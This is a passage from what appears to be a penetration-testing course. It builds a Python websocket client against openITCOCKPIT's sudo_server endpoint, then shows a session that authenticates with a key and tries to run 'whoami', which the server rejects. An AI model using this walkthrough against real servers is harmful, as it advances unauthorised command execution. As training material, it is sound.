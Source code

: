     print(mes)
Listing 64 - Creating on_message

With on_message created, we will create the event handlers for on_error and on_close. For on_error, we will simply print the error. For on_close, we will just print a message that the connection was closed.

def on_error(ws, error):
    print(error)

def on_close(ws):
    print("[+] Connection Closed")
Listing 65 - Creating on_error and on_close

With the script completed, we will use it to connect to the server and attempt to send a whoami command.

kali@kali:~/scripts$ python3 wsclient.py --url wss://openitcockpit/sudo_server -k 1fea123e07f730f76e661bced33a94152378611e -v
--- request header ---
GET /sudo_server HTTP/1.1
Upgrade: websocket
Connection: Upgrade
Host: openitcockpit
Origin: http://openitcockpit
Sec-WebSocket-Key: 5E+Srv82go8K6QOoJ6WRUQ==
Sec-WebSocket-Version: 13


-----------------------
--- response header ---
HTTP/1.1 101 Switching Protocols
Server: nginx
Date: Fri, 21 Feb 2020 16:36:31 GMT
Connection: upgrade
Upgrade: websocket
Sec-WebSocket-Accept: R4BpxrINRQ/cDOErqo4rbxfliaI=
X-Powered-By: Ratchet/0.4.1
-----------------------
{'payload': 'Connection established', 'type': 'connection', 'task': '', 'uniqid': '5e50070feeac73.88569350'}
whoami
send: b'\x81\xf5\x8b\xc1\xa3\x9e\xf0\xe3\xd7\xff\xf8\xaa\x81\xa4\xab\xe3\xc6\xe6\xee\xa2\xd6\xea\xee\x9e\xcd\xff\xec\xa8\xcc\xed\xd4\xa2\xcc\xf3\xe6\xa0\xcd\xfa\xa9\xed\x83\xbc\xef\xa0\xd7\xff\xa9\xfb\x83\xbc\xfc\xa9\xcc\xff\xe6\xa8\x81\xb2\xab\xe3\xd6\xf0\xe2\xb0\xca\xfa\xa9\xfb\x83\xbc\xa9\xed\x83\xbc\xe0\xa4\xda\xbc\xb1\xe1\x81\xaf\xed\xa4\xc2\xaf\xb9\xf2\xc6\xae\xbc\xa7\x94\xad\xbb\xa7\x94\xa8\xee\xf7\x95\xaf\xe9\xa2\xc6\xfa\xb8\xf2\xc2\xa7\xbf\xf0\x96\xac\xb8\xf6\x9b\xa8\xba\xf0\xc6\xbc\xf6'
{'payload': '\x1b[0;31mERROR: Forbidden command!\x1b[0m\n', 'type': 'response', 'task': '', 'uniqid': '', 'category': 'notification'}
{'type': 'dispatcher', 'running': False}
{'type': 'dispatcher', 'running': False}
^C
send: b'\x88\x829.J.:\xc6'
[+] Connection Closed
Listing 66 - First WebSocket connection
